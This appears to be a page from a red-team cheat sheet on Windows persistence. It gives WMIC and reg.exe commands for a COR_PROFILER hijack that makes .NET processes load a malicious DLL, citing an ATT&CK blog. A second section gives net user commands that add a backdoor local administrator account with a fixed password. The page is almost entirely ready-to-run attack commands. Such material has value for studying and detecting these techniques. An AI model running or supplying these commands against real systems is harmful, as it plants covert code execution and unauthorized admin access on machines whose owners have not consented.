 # Persistence

## COR Profiler Variable Hijack

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

{% code overflow="wrap" %}
```powershell
# deleting existing COR_PROFILER variable
wmic ENVIRONMENT where "name='COR_PROFILER'" delete

# creating COR_ENABLE_PROFILING variable and setting it to 1
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="<system>",VariableValue="1"

# creating a new COR_PROFILER variable
wmic ENVIRONMENT create name="COR_PROFILER",username="<system>",VariableValue="<arbitrary CLSID>"

# adding registry keys for malicious DLL
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /V ThreadingModel /T REG_SZ /D Apartment /F
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /VE /T REG_SZ /D "<malicious_DLL>" /F
```
{% endcode %}

## Local Administrator Account Creation

{% code overflow="wrap" %}
```powershell
net user burmat BURMAT123123123 /add
net localgroup administrators burmat /add 
net localgroup administrators
```
{% endcode %}
